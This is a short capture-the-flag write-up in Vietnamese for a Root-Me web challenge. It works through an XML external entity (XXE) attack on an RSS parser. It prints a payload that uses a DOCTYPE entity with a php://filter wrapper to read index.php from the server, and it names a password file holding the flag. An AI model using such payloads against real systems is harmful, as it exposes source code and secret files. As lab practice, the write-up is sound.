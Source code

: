 Challenge: http://challenge01.root-me.org/web-serveur/ch29/

Đầu tiên search thử về XML RSS và lấy 1 đoạn ví dụ của w3 đưa vào pastebin test thử: 
```
<?xml version="1.0" encoding="UTF-8" ?>

<rss version="2.0">
<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>abc</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```

Kết quả: 
![alt text](image.png)

Tìm thêm về lỗi của xml ta biết là nó có thể lấy thông tin vào biến ở phần `<!DOCTYPE`:
![alt text](image-1.png)

![alt text](image-2.png)

Bây giờ ta sẽ lấy file index.php:
```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<rss version="2.0">
<channel>
  <title>W3Schools Home Page</title>
  <link>https://www.w3schools.com</link>
  <description>Free web building tutorials</description>
  <item>
    <title>&example;</title>
    <link>https://www.w3schools.com/xml/xml_rss.asp</link>
    <description>New RSS tutorial on W3Schools</description>
  </item>
  <item>
    <title>XML Tutorial</title>
    <link>https://www.w3schools.com/xml</link>
    <description>New XML tutorial on W3Schools</description>
  </item>
</channel>

</rss>
```

![alt text](image-3.png)

[Code](index.php)

thì ta biết được file flag nằm ở `.passwod`
